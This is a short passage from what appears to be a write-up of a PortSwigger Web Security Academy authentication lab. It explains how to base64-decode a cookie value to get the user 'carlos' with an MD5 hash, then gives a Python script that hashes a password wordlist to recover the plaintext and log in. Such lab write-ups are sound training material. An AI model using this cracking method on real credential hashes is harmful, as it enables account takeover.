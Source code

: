 <img src="/assets/img/portswigger/auth/auth8_2.png" alt="auth" style="zoom:80%;" />

<br />

- decode the base64, you will get value like `carlos:d0763edaa9d9bd2a9516280e9044d885`
- decrypt the md5 hash or you can use this script to get the password from the passwords wordlist

```python
import hashlib
f= open('password.txt', 'r')
lines = f.readlines()
for line in lines:
    result = hashlib.md5(line.rstrip('\n').encode())
    stringToBase64 = "carlos:"+result.hexdigest()
    if(stringToBase64 == "carlos:d0763edaa9d9bd2a9516280e9044d885"):
        print(line)
f.close()
```

<br />

- login with `carlos` credentials

<br /><br />

------
